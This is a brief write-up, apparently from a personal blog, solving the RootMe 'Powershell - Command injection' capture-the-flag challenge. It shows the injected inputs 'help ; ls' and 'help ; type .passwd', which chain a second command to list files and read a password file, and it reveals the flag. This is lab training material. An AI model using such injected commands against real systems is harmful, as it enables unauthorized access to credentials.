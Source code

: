 ```yaml
---
title: RootMe Powershell - Command Injection WriteUp
date: 2023-10-03
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Powershell - Command injection

Its just simple command injection

```powershell
> help ; ls
Connect to the database With the secure Password:
76492d1116743f0423413b16050a5345MgB8AEoAMwBYAEgAWQBRAFQAMgBXAFMAbw
B3AFcATQBJADIAcgA5AEMAUgBBAHcAPQA9AHwAN
gA1AGEANAA2ADQAMAAyADIAYgAzAGMAMQBhADAAMABjADIANgA0ADkAMgA2ADUA
OQBmADAAZQBlADQAMwBmADQAZgBhAGMAZABlAGEAZQAwADAAMQA2AGEAYwAx
AGEANwA1ADkAOQA1ADIANABmADQAMwBk
AGMAYQA2AGEAOAAwADYANwAwADUANgA2ADgAMQA4AGIAYgAyAGYAMgAzADAAZ
gBmAGYAYQAzADAAZgBlAGMAMQA3ADYAMAA4AGYA. Backup the table help
Directory: C:\cygwin64\challenge\app-script\ch18
Mode    LastWriteTime   Length Name
----    -------------   ------ ----
-a----  12/12/2021 9:25 AM  43 .git
-a----  11/21/2021 11:34 AM 150 .key
-a----  4/20/2020 10:50 AM  18 .passwd
------  12/12/2021 9:50 AM  574 ._perms
------  11/21/2021 11:35 AM 348 ch18.ps1
```

`help ; type .passwd` and we will get flag `SecureIEXpassword`